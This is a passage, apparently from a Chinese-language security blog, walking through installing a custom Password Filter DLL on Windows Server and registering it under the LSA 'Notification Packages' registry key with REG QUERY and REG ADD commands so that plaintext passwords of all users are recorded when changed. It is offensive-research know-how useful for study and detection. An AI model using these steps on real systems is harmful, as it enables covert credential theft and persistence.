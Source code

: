 测试系统： Windows Server 2008 R2 x64

将Password Filter DLL工程编译生成64位的Win32Project3.dll

1、将Win32Project3.dll保存在%windir%\system32\下

2、修改注册表键值`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`下的`Notification Packages`，添加`Win32Project3`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-3/2-1.png)

通过命令行实现的方式如下：

读取键值：

```
REG QUERY "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages"
```

获得键值内容：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    Notification Packages    REG_MULTI_SZ    scecli\0rassfm
```

添加Win32Project3：

```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /t REG_MULTI_SZ /d "scecli\0rassfm\0Win32Project3" /f
```

**注：**

`\0`表示换行

3、Windows Server系统的组策略默认开启密码必须符合复杂性要求

4、重启系统

5、修改用户密码

6、记录明文密码

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-3/2-2.png)

**注：**

能够记录所有用户，包括未登录用户


## 0x05 域环境下的应用
---

### 1、记录明文密码
